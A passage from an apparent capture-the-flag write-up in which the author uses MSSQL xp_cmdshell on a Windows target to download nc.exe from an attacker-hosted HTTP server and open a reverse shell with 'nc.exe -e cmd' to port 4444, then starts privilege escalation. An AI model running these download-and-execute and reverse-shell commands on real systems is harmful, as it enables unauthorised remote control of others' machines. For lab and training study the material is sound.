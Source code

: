 ## Uploading the nc.exe

- Create dir named `tmp` under the `C:\`

```sql
EXEC xp_cmdshell 'mkdir C:\tmp'
```

- Curl the `nc.exe` from our vm

```sql
EXEC xp_cmdshell 'powershell -c curl http://10.8.28.219/nc.exe -o C:\tmp\nc.exe'
```

- Listener

```sh
┌──(alienum㉿kali)-[~]
└─$ locate nc.exe     
/usr/share/wordlists/SecLists/Web-Shells/FuzzDB/nc.exe

┌──(alienum㉿kali)-[~]
└─$ cd /usr/share/wordlists/SecLists/Web-Shells/FuzzDB/

┌──(alienum㉿kali)-[/usr/…/wordlists/SecLists/Web-Shells/FuzzDB]
└─$ sudo python3 -m http.server 80
[sudo] password for alienum:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.83.216 - - [15/Apr/2021 23:01:53] "GET /nc.exe HTTP/1.1" 200 -
```

- Execute the `nc.exe`

```sql
EXEC xp_cmdshell 'C:\tmp\nc.exe -e cmd 10.8.28.219 4444'
```

![image]( /assets/img/ustoun/1.PNG)

## Privilege Escalation

- Run the command `whoami /priv`

The `/priv` represents the Privileges that the current user have
